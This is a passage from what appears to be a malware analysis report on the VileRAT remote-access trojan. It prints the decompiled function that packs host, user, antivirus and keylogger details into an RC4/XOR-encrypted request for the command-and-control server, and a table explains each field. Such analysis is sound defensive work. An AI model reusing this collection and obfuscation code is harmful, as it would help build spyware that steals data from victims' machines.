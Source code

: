 


123456789101112131415161718192021222324252627

def get_request_data(req_type, xmode, pmode):    data = {        'type': 'svc',         'xmode': xmode,         'pmode': pmode,         'req_type': req_type,         'svc_ver': conf.VERSION,         'svc_name': conf.SVC_NAME,         'ext_uuid': get_ext_uuid(),         'svc_uuid': get_service_uuid(),         'old_svc_uuid': get_old_service_uuid(),         'host': get_hostname(),         'uname': get_username(),         'ia': win32.hap(),         'wv': win32.gwv(),         'dt': datetime.datetime.now().strftime('%Y-%m-%d %H-%M-%S'),         'xn': os.path.basename(sys.executable)    }    if req_type == REQ_GET_CMD:        data['gc'] = global_conf        data['klr'] = keylogger.kl_run        data['cr'] = win32.is_process_exist(exe_name='chrome.exe')        data['avs'] = get_av_list()    elif req_type in [REQ_FIRST_RUN, REQ_INSTALL_DONE]:        data['avs'] = get_av_list()    enc_data = quote(b64encode(encrypt_xor(rc4_encrypt(json.dumps(data).encode('utf-8')))), safe="~()*!.'")    return enc_data




Figure 14. VileRAT C2 request preparation function
Just as in VileLoader, the User-Agent value in HTTP requests is randomly selected from a fixed list of possible values. The JSON that is passed to the C2 server can be broken down as follows:



JSON Key
Value


type
Fixed value set to “svc”.


xmode
True if VileRAT is executed with the xmode command line switch; false otherwise.


pmode
True if VileRAT is executed with the pmode command line switch; false otherwise.


req_type
Internal C2 command request type, value can be get_cmd, update_done, screenshot, first_run, install_done or klgr.


svc_ver
Internal VileRAT version number as set in VileRAT’s configuration.


svc_name
Internal VileRAT implant name as set in VileRAT’s configuration.


ext_uuid
Partial value of one of the mutexes VileRAT sets to ensure atomic execution. It can either be the same system UUID as the one collected by VileDropper as part of the target identifier generation, or a hard-coded one.


svc_uuid
The target identifier, generated again with the same algorithm used in VileDropper.
